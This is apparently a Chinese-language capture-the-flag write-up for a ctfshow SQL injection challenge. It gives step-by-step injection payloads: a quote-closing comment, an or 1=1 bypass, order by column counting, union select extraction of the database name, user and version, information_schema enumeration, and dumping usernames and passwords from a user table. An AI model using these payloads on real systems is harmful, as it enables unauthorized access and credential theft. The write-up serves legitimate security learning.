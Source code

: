 ![image-20250316163157802](./assets/image-20250316163157802.png)



拼接查询语句

首先闭合单引号，然后注释掉后面的语句

```
' --+
```

然后拼接

```
or 1=1
```

![image-20250316163319241](./assets/image-20250316163319241.png)

得到flag



由于是sql基础入门

因此尝试利用基础sql语法去写

首先利用order by判断回显数

```
1' order by 5 --+
```

![image-20250316163409494](./assets/image-20250316163409494.png)

order by 5 报错



```
1' order by 3 --+
```

![image-20250316163424893](./assets/image-20250316163424893.png)

正常返回，及3个回显数



联合查询判断回显位

```
-1' union select 1,2,3 --+
```

![image-20250316163521602](./assets/image-20250316163521602.png)



查询数据库名，用户和版本信息

```
-1' union select database(),user(),version() --+
```

![image-20250316163705855](./assets/image-20250316163705855.png)

数据库：ctfshow_web

用户名：root

版本信息：10.3.18-MariaDB



查询表名

```
-1' union select 1,2,table_name from information_schema.tables where table_schema="ctfshow_web" --+
```

![image-20250316164112459](./assets/image-20250316164112459.png)

存在ctfshow_user表





查询字段名

```
-1'union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user' --+
```

![image-20250316164232382](./assets/image-20250316164232382.png)

得到username和password字段



获取字段信息

-1'union select 1,username,password from ctfshow_user --+

![image-20250316164339442](./assets/image-20250316164339442.png)